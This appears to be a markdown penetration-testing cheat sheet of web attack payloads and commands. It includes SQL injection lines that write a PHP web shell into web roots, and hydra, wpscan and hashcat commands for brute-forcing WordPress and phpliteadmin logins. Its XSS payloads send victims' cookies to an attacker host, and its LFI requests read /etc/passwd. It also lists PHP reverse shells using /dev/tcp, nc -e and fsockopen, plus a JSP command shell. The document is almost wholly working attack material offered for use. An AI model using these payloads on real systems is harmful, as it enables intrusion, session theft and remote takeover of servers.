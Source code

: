 
# Web

## User Agents 
```
Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)
```
```
Googlebot/2.1 (+http://www.googlebot.com/bot.html)
```
```
Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36
```

## SQL Injection Payloads
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php"
```
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/shell.php"
```
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/srv/www/shell.php"
```
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/nginx-default/shell.php"
```
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/usr/local/apache2/htdocs/shell.php"
```

## Web Applications 

### Wordpress

#### Password bruteforce

```bash
wpscan --url http://$target --username admin --wordlist /mnt/share/wordlists/rockyou.txt -t 20
```
```bash
hydra -vV -l admin -P /usr/share/wordlists/rockyou.txt $target http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=ERROR" -I
```
```bash
hashcat --force -m 400 -a 0 -o found1.txt --remove wphash.hash /usr/share/wordlists/rockyou.txt
```

#### User enumeration
```bash
hydra -vV -L /mnt/share/wordlists/rockyou.txt -p wedontcare $target http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

### phpliteadmin
```bash
hydra -l "" -P /mnt/share/wordlists/rockyou.txt -t 1 -v -V $target http-post-form /db/phpliteadmin.php:”password=^PASS^&remember=yes&login=Log+In&proc_login=true”:”Incorrect password.”
```

## XSS
```html
'">><script>i=document.createElement("img");i.src='http://$source_ip/'+document.cookie;</script>
```
```html
<script>new Image().src="http://$source_ip/"+document.cookie;</script>
```
```html
<iframe SRC="http://$source_ip/report" height="0" width="0"></iframe>
```
```javascript
var http = new XMLHttpRequest();var url = "http://$source_ip/";var params = "data=" + document.cookie;http.open("POST", url, true);http.setRequestHeader("Content-type", "application/x-www-form-urlencoded");http.send(params);
```

## WebDav
```bash
davtest -url http://$target
```
```bash
curl -X PUT http://$target/test.jsp/ -d @- < test.jsp
```

## LFI 
```bash
curl -s --data "<?system('ls -la');?>" "http://$target/example.php?ACS_path=php://input%00"
```
```bash
curl "http://$target/example.php?page=php://filter/convert.base64-encode/resource=/etc/passwd%00"
```
```bash
bash $pwd/tools/web/Kadimus/bin/kadimus -u $target/?pg=contact -A "Mozilla/5.0 (X11; Linux i586; rv:31.0) Gecko/20100101 Firefox/73.0" --threads 10 --connect-timeout 10 --retry-times 1 
```

## Payloads 
```php
<?php shell_exec("bash -i >& /dev/tcp/$source_ip/$source_port 0>&1") ?>
```
```php
<?php shell_exec("nc -e /bin/sh $source_ip $source_port") ?>
```
```php
<?php $sock=fsockopen("$source_ip",$source_port);exec("/bin/sh -i <&3 >&3 2>&3"); ?>
```
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
## DNS
```bash
dnsrecon -d $target -t axfr
```
```bash
nmap -p 80 --script dns-brute.nse $target 
```
```bash
python dnscan.py -d $target -w ./subdomains-10000.txt
```

## Logs

RHEL / Red Hat / CentOS / Fedora Linux Apache log file location   
```
/var/log/httpd/access_log
```
```
/var/log/httpd/error_log
```

Debian / Ubuntu Linux Apache log file location
```
/var/log/apache2/access.log
```
/var/log/apache2/error.log
```

FreeBSD Apache log file location
```
/var/log/httpd-access.log
```
```
/var/log/httpd-error.log
```

# Config
```
/usr/local/etc/apache2/httpd.conf
```
```
/etc/apache2/apache2.conf
```
```
/etc/httpd/conf/httpd.conf
```

# Windows web roots
```
C:/xampp/htdocs/
```
```
C:/wamp/www/
```
```
C:/Inetpub/wwwroot/
```